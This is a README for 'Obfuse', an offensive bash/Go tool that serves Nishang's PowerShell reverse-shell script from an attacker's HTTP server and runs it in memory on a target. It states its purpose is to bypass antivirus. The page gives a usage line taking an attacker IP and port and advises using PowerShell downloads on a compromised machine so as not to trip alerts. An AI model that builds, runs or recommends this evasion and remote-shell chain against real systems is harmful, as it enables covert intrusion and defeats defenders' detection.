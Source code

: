 ## What is Obfuse?
Obfuse is just a simple bash script that combines different methods into one executable, compiled with golang. It uses **Invoke-PowerShellTcp.ps1** from [Nishang](https://github.com/samratashok/nishang) for reverse connection which will be served with python http module, then it uses a compiled go binary which will download the script and execute it in memory. The purpose of Obfuse is to bypass AV.

## Requirements
- Metasploit Framework (msfconsole)
	- Available on the official repo **https://github.com/rapid7/metasploit-framework**
- Golang (GO)
	- You can install it by executing **apt-get install golang**
- Python (http server)
	- You can install it by executing **apt-get install python2 or python3**

## Usage
> $ ./obfuse.sh attacker_ip attacker_port

## Tips
Use the powershell method to download files if you already have access on the target machine because certutil might already be blocked and it might trigger an alert.

## ToDo
- Choose between msfconsole or empire-cli
- Choose different payload delivery methods not only powershell

## Feedback and issues?
If you have any feedback, anything that you want to see implemented or if you're running into issues using Obfuse, please feel free to file an issue on [https://github.com/spenkk/obfuse/issues](https://github.com/spenkk/issues)
